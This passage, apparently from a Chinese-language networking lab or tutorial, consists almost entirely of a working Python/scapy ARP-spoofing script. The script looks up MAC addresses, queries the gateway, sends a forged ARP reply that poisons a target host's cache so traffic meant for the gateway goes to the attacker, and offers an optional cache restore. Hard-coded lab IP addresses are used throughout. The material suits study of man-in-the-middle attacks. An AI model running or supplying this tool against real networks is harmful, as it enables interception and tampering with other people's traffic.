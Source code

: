 使用vim编辑器编写脚本：

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
from scapy.all import ARP, Ether, get_if_hwaddr, sendp,srp
from scapy.layers.l2 import getmacbyip

def get_mac(target_ip):
        '''
        使用getmacbyip函数查找主机MAC地址
        '''
        target_mac = getmacbyip(target_ip)
        if target_mac is not None:
                return target_mac
        else:
                print("无法获取IP为：%s 主机的MAC地址"%target_ip)

def create_arp_target(src_ip,src_mac,target_ip,target_mac):
        '''
    生成ARP数据包，伪造网关欺骗目标计算机
    src_mac:本机的MAC地址，充当中间人
    target_mac:目标计算机的MAC
    src_ip:要伪装的IP，将发往网关的数据指向本机（中间人），形成ARP攻击
    target_ip:目标计算机的IP
    op=is-at,表示ARP响应
        '''
        pkt1 =Ether()/ ARP(op=2,psrc=src_ip,hwsrc=src_mac,pdst=target_ip,hwdst=target_mac)
        return pkt1

def create_arp_gateway(gateway_ip):

        pkt2 = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst=gateway_ip)
        return pkt2

def main():
        src_ip = "172.16.111.113"
        interface="eth0"
        src_mac = get_if_hwaddr(interface)
        target_ip="172.16.111.144"
        target_mac=get_mac(target_ip)
        gateway_ip = "172.16.111.1"
        arpbroadcast = create_arp_gateway(gateway_ip)
        # 发送这个 ARP 广播请求
        recved = srp(arpbroadcast, timeout=2)
        # 网关 MAC 地址如下
        gateway_mac = recved[0][0][1].hwsrc
        arpspoofed = create_arp_target(gateway_ip,src_mac,target_ip,src_mac)
        sendp(arpspoofed)
        choice = input("恢复受害者主机ARP缓存?(y/n):")
        if choice == 'y':
                restorepkt1=create_arp_target(gateway_ip,gateway_mac,target_ip,target_mac)
                sendp(restorepkt1,count=20,inter=0.1)
                restorepkt2=create_arp_target(target_ip,target_mac,gateway_ip,gateway_mac)
                sendp(restorepkt2,count=20,inter=0.1)


if __name__=='__main__':
        main()
```
